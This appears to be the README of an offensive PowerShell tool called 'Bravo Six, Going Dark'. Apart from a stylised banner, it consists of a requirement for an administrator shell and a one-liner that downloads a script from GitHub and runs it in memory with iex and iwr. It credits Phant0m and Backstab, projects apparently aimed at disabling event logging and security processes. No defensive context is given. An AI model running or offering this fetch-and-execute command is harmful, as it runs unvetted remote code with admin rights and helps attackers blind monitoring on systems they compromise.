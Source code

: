 # Bravo Six, Going Dark

```
___  ____ ____ _  _ ____    ____ _ _  _      ____ ____ _ _  _ ____    ___  ____ ____ _  _
|__] |__/ |__| |  | |  |    [__  |  \/       | __ |  | | |\ | | __    |  \ |__| |__/ |_/
|__] |  \ |  |  \/  |__|    ___] | _/\_ .    |__] |__| | | \| |__]    |__/ |  | |  \ | \_
-... .-. .- ...- ---    ... .. -..- --..--    --. --- .. -. --.    -.. .- .-. -.-
```

!! Require administrator shell

```powershell
iex (iwr https://github.com/RFC1918-hub/BravoSix/blob/main/Invoke-BravoSix.ps1 -UseBasicParsing)
Invoke-BravoSix
```

# Credits
https://github.com/hlldz/Phant0m
https://github.com/Yaxser/Backstab
